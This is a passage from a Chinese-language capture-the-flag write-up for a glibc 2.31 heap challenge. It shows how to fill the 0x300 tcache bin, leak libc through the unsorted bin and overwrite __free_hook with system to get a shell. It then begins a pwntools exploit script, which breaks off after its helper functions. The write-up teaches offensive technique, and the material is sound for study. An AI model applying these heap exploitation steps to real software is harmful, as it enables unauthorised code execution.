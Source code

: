 ```py
def edit_size(size: int):
	edit(5, p32(0) + p32(size))
```

```py
# 一个修改内存的示例，于 tcachebin attack 相比，大大节约 alloc 数量
edit_size(4)
edit_head(libc.symbols['__free_hook'])
add(8, p64(libc.symbols['system']))
```

这里只差泄露 libc 地址了，在这里笔者借用了一开始程序为了记录用户姓名而 alloc 的大小为 0x300 的 chunk 构造 unsorted bin. 该 chunk 的地址同样可以推断出来

至于怎么填满 0x300 的 tcachebin 呢？在此笔者首先推断出了 0x300 tcachebin 的 bin size，而后直接写入标志位为 7，即可一键填满空间

```py
# size300_addr 即为 0x300 的 bin size 标志地址
edit_size(4)
edit_head(size300_addr - 0x8)
add(6, p64(0) + p64(0x0007000000000000))
```

![dasctf](/image/qwbqsn/8.png)  

在此，再 free 一下一开始的 0x300 chunk，即可成功将其放入 unsorted bin 泄露 libc 基址. 后面只需要 向 `__free_hook` 写入 system 地址，并 free 一个内容为 `/bin/sh` 的 chunk，即可成功 getshell

### [](#header-3)EXP

```py
# by leeya_bug

from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/youth_memory_album')
libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid}' '''])
	p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def input_name(name: bytes) -> None:
	p.sendlineafter(b'Please input your name:', name)

def add(index: int, memory: bytes) -> None:
	p.sendlineafter(b'Your choice:', b'1')
	p.sendlineafter(b'Album entry number:', str(index).encode())
	p.sendlineafter(b'Write your memory:', memory)

```